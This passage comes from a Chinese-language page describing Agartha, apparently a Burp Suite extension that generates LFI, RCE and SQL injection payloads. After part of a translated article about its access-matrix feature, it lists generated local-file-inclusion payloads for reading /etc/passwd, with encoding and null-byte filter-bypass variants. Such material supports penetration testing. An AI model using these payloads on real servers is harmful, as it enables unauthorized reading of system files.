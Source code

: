 [![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](https://www.ddosi.org/wp-content/uploads/2023/04/7-1.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/7-1.webp)

单击“运行”按钮后，我们的矩阵已填充，所有 URL 都根据用户会话进行了访问。

单元格标头显示 Http 响应代码和响应大小。即使在底部，您也可以访问所有 Http 详细信息并分析用户如何查看页面。

**注意：**如果目标 URL 需要自定义“POST”数据，该功能可能无法正常工作。



就这些:)，感谢您的阅读，我希望您喜欢它。

[from](https://www.linkedin.com/pulse/agartha-lfi-rce-auth-sqli-http-js-volkan-dindar)

## 测试

### 文件读取

例如生成文件读取的payload(读取/etc/passwd)

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\11162038.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/11162038.webp)

```llvm
etc\passwd
etc\\passwd
etc\\\passwd
etc\/passwd
etc0x5cpasswd
etc0x2fpasswd
etc/passwd;index.html
etc/passwd%FFindex.html
etc/passwd%FF.jpg
etc/passwd%FF
etc/passwd%20index.html
etc/passwd%20.jpg
etc/passwd%20
etc/passwd%0Dindex.html
etc/passwd%0D.jpg
etc/passwd%0D
etc/passwd%09index.html
etc/passwd%09.jpg
etc/passwd%09
etc/passwd%00index.html
etc/passwd%00.jpg
etc/passwd%00
etc/passwd
etc//passwd
etc///passwd
etc%uF025passwd
etc%uEFC8passwd
etc%u2216passwd
etc%u2215passwd
etc%e0%80%afpasswd
etc%c1%9cpasswd
etc%c0%afpasswd
etc%c0%80%5cpasswd
etc%c0%5cpasswd
etc%c0%2fpasswd
etc%5cpasswd
etc%2fpasswd
etc%25c1%259cpasswd
etc%25c0%25afpasswd
etc%255cpasswd
etc%252fpasswd
etc%%35%63passwd
```